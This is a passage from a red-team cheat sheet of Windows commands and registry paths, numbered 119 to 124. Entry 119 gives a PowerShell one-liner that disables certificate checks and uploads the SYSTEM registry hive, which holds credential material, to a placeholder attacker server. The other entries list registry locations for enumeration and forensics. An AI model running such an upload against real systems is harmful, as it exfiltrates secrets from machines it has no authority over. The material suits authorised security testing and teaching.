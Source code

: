 https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 119. Powershell upload file VIA post, script must write this out
```
powershell.exe -noprofile -noninteractive -command "[System.Net.ServicePointManager]::ServerCertificateValidationCallback{$true}$server="[$ip]/[script]";$filepath="c:/temp/SYSTEM";$http = new-object System.Net.Webclient; $response = $http.uploadFile($server,$filepath);"
```
**- networking,files,interesting,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 120. Windows information in the reg
```
HKLM\Software\Microsoft\Windows NT\CurrentVersion
```
**- enumeration,Windows,forensics**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 121. Mapped drives in reg
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Map Network Drive MRU
```
**- enumeration,smb,Windows,forensics**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 122. Mounted devices
```
HKLM\System\MountedDevices
```
**- Windows,forensics**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 123. USB Devices
```
HKLM\System\CurrentControlSet\Enum\USBStor
```
**- Windows,forensics**
#### References:

https://www.offensive-security.com/metasploit-unleashed/msfvenom/
__________
### 124. enable ip routing in windows, use as GW
```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\IPEnableRouter
```
**- Windows,configuration**
#### References:
